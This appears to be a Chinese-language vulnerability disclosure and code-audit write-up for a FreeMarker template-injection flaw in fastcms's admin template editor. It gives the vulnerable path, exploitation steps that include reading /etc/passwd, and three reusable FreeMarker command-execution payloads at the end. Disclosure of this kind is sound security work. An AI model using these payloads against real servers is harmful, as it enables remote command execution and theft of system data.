



## fastcms模版注入漏洞

fastcms内置一套完整的CMS建站系统

fastcms完全融入微信生态，是一切微信营销插件的基石

fastcms可以基于jar, zip包动态热插拔

fastcms基于SpringBoot进行插件式开发，具有极强的扩展性，让你彻底从臃肿的项目中解脱出来

fastcms后台管理系统可以编辑模版文件，从而我们可以编辑一个存在恶意命令执行的模版文件，并通过访问前端页面从而实现远程命令执行漏洞。

可通过此漏洞执行服务器系统命令，获取系统信息。

漏洞地址：http://ip:8080/fastcms.html#/template/edit

代码下载地址：https://gitee.com/dianbuapp_admin/fastcms.git

漏洞位置：登录系统后模版编辑访问此模版。

### 漏洞利用

登录后台系统，点击模版编辑，编辑模版HTML文件，例如编辑index.html可以执行“cat /etc/passwd”命令的恶意模版文件。



设置好后，可以直接访问此栏目即可直接命令执行。


可通过修改执行命令的形式，执行其他命令。

### 代码审计流程

追踪新增模版以及保存模版接口。文件路径：src/main/java/com/cms/controller/admin/TemplateController.java 49、58行



去pom.xml文件中判断引入的模版引擎是Freemarker。


既然是Freemarker，我们在代码中找一下是否存在对模版声明时对某些敏感函数的黑名单过滤，例如Execute等方法。发现src/main/java/com/cms/utils/TemplateUtils.java 分析一下，这个Java类的内容是否存在过滤。



在读写的过程中未对模版的内容进行过滤处理，所以可以判断出存在Freemarker模版注入漏洞。

payload如下：

```java
<#assign value="freemarker.template.utility.Execute"?new()>${value("open -a Calculator")}
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","open -a Calculator").start()}
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("open -a Calculator")
```

